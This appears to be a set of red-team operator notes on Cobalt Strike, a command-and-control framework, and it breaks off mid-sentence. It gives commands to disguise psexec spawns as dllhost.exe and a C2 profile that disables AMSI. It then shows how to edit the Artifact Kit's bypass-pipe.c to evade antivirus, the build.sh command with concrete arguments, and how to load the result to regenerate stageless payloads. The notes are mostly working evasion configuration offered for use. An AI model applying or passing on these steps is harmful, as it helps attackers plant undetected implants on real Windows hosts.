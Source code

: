#### Change spawnto psexec
```
ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe
```

#### Change service name for psexec
```
ak-settings service <NAME>
```

#### C2 profile
```
post-ex {
        set amsi_disable "true";

        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```

### Artifact-kit
- Used to modify the binary (EXE & DLL) payloads
- Location `cobaltstrike\arsenal-kit\kits\artifact`
- The `src-main/main.c` is the entry points for the EXE artifacts.
- `src-common/bypass-template.c` shows how one can implement some logic inside the start function from `main.c`
- We can use the `bypass-pipe.c` to evade AV.

### Change bypass-pipe.c
```
vim /opt/cobaltstrike/artifact-kit/src-common/bypass-pipe.c
```

### Edit the following line
- Nothing needs to be changed right now, but might want to change the pipe name part. Example:
```
"%c%c%c%c%c%c%c%c%cnetsvc\\%d"
"%c%c%c%c%c%c%c%c%cprintsvc-%d-server"
```

#### Built artifact kit
- Files should go to the client.
```
./build.sh <techniques> <allocator> <stage> <rdll size> <include resource file> <output directory>
./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts
```

#### Load artifact.cna
- Click on Cobalt Strike -> Script Manager -> Load `artifact.cna` from the output directory
- Reload cobaltstrike UI
- Use Payloads -> Windows Stageless Generate All Payloads to replace all 
